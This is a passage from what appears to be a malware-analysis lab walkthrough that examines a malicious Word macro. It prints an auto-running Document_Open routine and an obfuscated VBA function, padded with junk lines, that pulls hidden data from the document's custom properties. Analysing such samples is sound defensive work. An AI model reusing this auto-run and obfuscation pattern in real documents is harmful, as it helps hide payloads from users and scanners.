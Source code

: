     ![](./img/c45-p5-3.PNG)

4. Begin examining the code. The `Document_Open` method calls a few methods. We have highlighted the most relevant code here. 

    ```vb
    Private Sub Document_Open()
        qmc25G5Ts ("H5KVjxFwm")
        AsTVF5Drm ("pZTFuTgJZ")
        ghTyUj45d
        qmc25G5Ts ("pZTFuTgJZ")
    End Sub

    Public Function yKvCXNf(vRKbufsX)
    zYdt3wfBD = s4rf4fgK9 + qfFpyPr89qfFpyPr8 = xgHuSVRNt
    tRaBrJRnN = xgHuSVRNt + SLLQ6P3gN + SLLQ6P3gN + SLLQ6P3gN = pkgaBYnLS
    zYdt3wfBD = s4rf4fgK9s4rf4fgK9 + rXg2s4Mvj + rXg2s4Mvj = CemHGmAZS
    s4rf4fgK9 = AYRV4beqB + C9q98y4cpC9q98y4cpC9q98y4cp = s4rf4fgK9
    zYdt3wfBD = s4rf4fgK9 + qfFpyPr89qfFpyPr8 = xgHuSVRNt
    tRaBrJRnN = xgHuSVRNts4rf4fgK9 + SLLQ6P3gN + SLLQ6P3gN + SLLQ6P3gN = pkgaBYnLS
    zYdt3wfBD = s4rf4fgK9 + rXg2s4Mvj + rXg2s4Mvj = CemHGmAZS
    s4rf4fgK9 = AYRV4beqBs4rf4fgK9 + C9q98y4cpC9q98y4cpC9q98y4cp = s4rf4fgK9
    fgtYedfgtYed = ActiveDocument.CustomDocumentProperties(vRKbufsX)
    yKvCXNf = fgtYedfgtYed
    zYdt3wfBD = s4rf4fgK9xgHuSVRNt + rXg2s4Mvj + rXg2s4Mvj = CemHGmAZS
    s4rf4fgK9 = AYRV4beqB + C9q98y4cpC9q98y4cpC9q98y4cp = s4rf4fgK9
    zYdt3wfBD = s4rf4fgK9xgHuSVRNt + qfFpyPr89qfFpyPr8 = xgHuSVRNt
    tRaBrJRnN = xgHuSVRNt + SLLQ6P3gN + SLLQ6P3gN + SLLQ6P3gN = pkgaBYnLS
    zYdt3wfBD = s4rf4fgK9xgHuSVRNt + rXg2s4Mvj + rXg2s4Mvj = CemHGmAZS
    s4rf4fgK9 = AYRV4beqB + C9q98y4cpC9q98y4cpC9q98y4cp = s4rf4fgK9
    End Function

